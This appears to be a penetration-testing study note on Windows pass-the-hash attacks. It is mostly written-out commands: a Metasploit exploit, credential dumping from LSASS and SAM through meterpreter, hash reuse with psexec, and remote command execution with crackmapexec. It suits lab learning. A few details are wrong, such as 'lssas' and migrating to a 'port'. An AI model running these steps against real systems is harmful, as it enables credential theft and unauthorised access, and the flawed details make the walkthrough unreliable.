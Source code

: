 ```yaml
---
up: "[[Windows Credential Dumping]]"
tools:
  - "[[Metasploit]]"
  - "[[crackmapexec]]"
  - "[[PsExec]]"
---
```


# Pass-The-Hash Attacks

- What can we do with hashes?
	- Crack them (later)
	- Use Pass-the-hash attacks

- Multiple tools to facilitate this type of attacks:
	- Metasploit PsExec module
	- Crackmapexec

## Demonstration

```bash
> use exploit/windows/http/badblue_passthru
> set RHOSTS $TRG
meterpreter> pgrep lssas
meterpreter> migrate <port>
meterpreter> getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter> load kiwi
meterpreter> lsa_dump_sam
```

Copy ``User`` and ``Hash NTLM`` section

```bash
meterpreter> hashdump
# copy same user hash
> exploit/windows/smb/psexec
> set SMBUser Administrator
> set SMBPass <hash>:<hashdump>
> set target Native\ upload
```

### Using crackmapexec

```bash
crackmapexec smb $TRG -u Administrator -H "<ntlm_hash>"
crackmapexec smb $TRG -u Administrator -H "<ntlm_hash>" -x "ipconfig"
```
